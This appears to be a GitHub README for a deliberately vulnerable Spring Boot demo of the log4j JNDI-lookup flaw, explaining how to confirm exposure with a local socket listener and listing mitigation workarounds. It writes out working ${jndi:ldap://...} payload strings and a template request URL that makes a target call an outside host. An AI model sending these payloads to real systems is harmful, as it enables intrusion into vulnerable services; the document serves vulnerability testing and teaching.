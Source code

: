 ### Exploiting log4j issue - No need of Burp Collaborator!
This is a basic Spring Boot app which demonstrate the Log4j vulnerability.
While testing different endpoints of your application, you might need Burp Collaborator (which comes in a professional edition only).
<br>
This program uses plane socket to ensure that the your application hit the provided malicious endpoint!

**About Log4j Issue**
<br>The world knows that there is a security vulnerability in log4j versions 2.10 to 2.14.1 (Also, the patches they released also have many vulnerabilities, so please check the apache site for exact versions).

This code uses log4j 2.14.1.<br>
A REST API accepts the request parameter (param name is '_input_') and simply logs it.
To exploit the vulnerability, try using something like this (encode it before sending) -> *_${jndi:ldap://localhost:8080}_*.

Request will look like - http://localhost:8080/logme?input=${jndi:ldap://localhost:8080/test}
<br>You will notice that the logger tries to contact this jndi endpoint. As this is a fake endpoint, it fails to connect and prints the exception trace on spring app console.

**No Burp Collaborator needed**<br>
Furthermore, I've now added a server socket, which listens on port 339.<br>
You want to test your existing deployments for log4j vulnerabilities. One way is to examine the application logs, may be using splunk, to see for any unexpected logging.
Other way is to pass the host:port provided by Burp Collaborator, and poll the collaborator to know if log4j inside the application has invoked Collaborator endpoints.
<br>Log4j basically uses client socket and contacts the <host:port> provided in the payload. <br>
Once you start the socket on local, now invoke the application URL from the browser as follows (please encode the param value before invoking):
*http://<application_hostname:port>/logme?input=${jndi:ldap://<socket_ip:port>}*
<br>
Note: If your application is deployed in cloud, ensure your socket IP is accessible to the internet. You may need to deploy the socket in cloud such as on EC2 instance.<br>
But this should work on all local/inside VPN deployments.
Once the above endpoint is invoked, you will see that the server socket received an incoming connection.<br>
Congratulations! You have successfully exploited the application.

**Mitigation**<br>
One way is to pass _*LOG4J_FORMAT_MSG_NO_LOOKUPS*_ environment variable by setting its value to true.
<br>Other workaround it by setting a system property _log4j2.formatMsgNoLookups=true_<br>
Note that these are just workarounds, they may not solve the vulnerability properly.<br>
Please visit Apache website for latest updates.
https://logging.apache.org/log4j/2.x/security.html

Cheers.